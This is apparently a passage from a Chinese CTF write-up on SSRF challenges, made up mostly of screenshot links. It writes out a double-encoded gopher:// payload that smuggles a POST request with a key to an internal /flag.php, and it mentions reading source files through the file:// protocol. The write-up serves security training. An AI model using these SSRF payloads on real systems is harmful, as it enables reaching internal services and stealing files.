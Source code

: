 ![image-20241015191917168](D:\ctf wp\40.1.assets\image-20241015191917168.png)

看到范围 想到抓包爆破

![image-20241015192550693](D:\ctf wp\40.1.assets\image-20241015192550693.png)

![image-20241015192558702](D:\ctf wp\40.1.assets\image-20241015192558702.png)

![image-20241015193449089](D:\ctf wp\40.1.assets\image-20241015193449089.png)





## 8.POST请求

![image-20241015203802858](D:\ctf wp\40.1.assets\image-20241015203802858.png)

![image-20241015204006977](D:\ctf wp\40.1.assets\image-20241015204006977.png)

发现key 尝试放入输入框

![image-20241015204130989](D:\ctf wp\40.1.assets\image-20241015204130989.png)

尝试为协议 并查看源代码 发现post请求![image-20241015204528498](D:\ctf wp\40.1.assets\image-20241015204528498.png)

构造 Gopher协议所需的 POST请求：

POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

key=86ee713e7a7527d5fcaa7310d949f6b8

两次编码（curl一次  浏览器一次）`注`：在使用 Gopher协议发送 POST请求包时，`Host`、`Content-Type`和`Content-Length`请求头是必不可少的，但在 GET请求中可以没有。![image-20241015210544266](D:\ctf wp\40.1.assets\image-20241015210544266.png)

构造payload

？url=gopher://127.0.0.1:80/_POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%252036%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250A%250D%250Akey%253D86ee713e7a7527d5fcaa7310d949f6b8

![image-20241015211314960](D:\ctf wp\40.1.assets\image-20241015211314960.png)



## 9.SSRF 上传文件

尝试访问?url=127.0.0.1/flag.php

![image-20241016135133231](D:\ctf wp\40.1.assets\image-20241016135133231.png)

上传不了文件 使用`file`协议读取`flag.php`的源码
